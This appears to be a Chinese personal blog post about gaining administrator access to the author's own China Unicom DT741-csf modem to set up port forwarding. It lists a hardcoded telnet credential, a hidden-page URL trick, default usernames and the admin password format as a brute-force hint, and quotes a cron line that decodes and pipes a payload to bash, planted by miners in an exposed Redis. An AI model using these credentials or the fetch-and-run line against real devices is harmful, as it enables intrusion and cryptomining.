 ```yaml
---
title: "联通 DT741-csf 光猫管理员账号"
date: 2022-07-15T18:07:46+08:00
draft: false
tags:
categories:
---
```


最近在整<u>自动追番</u>[^1]，需要用到 BT 下载，Aria2 似乎没有 UPnP ，所以需要手动设置下虚拟主机，端口转发之类的事情。看了下家里的光猫是联通的 `DT741-csf`。

在各种搜索和自己研究中，找到了一些破解的方法。

 - `/hidden_version_switch.html` 打开 telnet ，使用 `root:Pon521` 登陆之后拿配置文件
 - `/getpage.gch?pid=1002&nextpage=*.gch` 可以跳转到一些普通用户看不到的界面
 - 使用默认用户名密码 `CUAdmin`

上面三种方法都不行，telnet 端口虽然打开了，但密码不对。通过 `/getpage.gch` 最多跳转到 FTP 设置界面，更多设置估计是在后台有做限制了。

我甚至安装了 Kail Linux 准备穷举 telnet 密码，但由于是单线程，太慢了，就放弃了。

后来就是投诉到当地联通宽带，回电说一般情况是不能给用户管理员密码之类的，还要求我做个保证，如果自己玩坏了，不能找联通修。

> 题外话：装机师傅和联通客服都不知道什么是管理员密码，他们甚至分不清宽带账户、猫的登录、管理员账户和路由器账户。还被师傅教育不要乱搞，别以为自己很聪明 etc...

最后拿到了密码 `CUAdmin<随机数字x8>` （同 telnet 密码），用户名是 `CUAdmin`，登陆位置 `ip/cu.html`，

倒是能给以后的穷举提供思路。我在穷举 telnet 密码时用的是 `CUAdmin`,`cuadmin`,`admin` 作为前缀加数字 0 一直到 10000000。但现在已知组合情况，可以少很多次尝试，虽然还是有 `10^8` 可能性..... 但至少是在范围内了。

---

虽然体验不是很好，但是联通给公网 IP 还是很大方的，1 分钟的电话就要到了。

---

不小心把 Redis 也暴露在公网上了（没有密码），瞬间被塞挖矿/加密之类的脚本的内容到 Redis 里..
```
*/3 * * * * * <url-b64>|base64 -d|bash|bash
```

[^1]: [Jellyfin 自动追番]({{< ref "/posts/auto-bangumi" >}})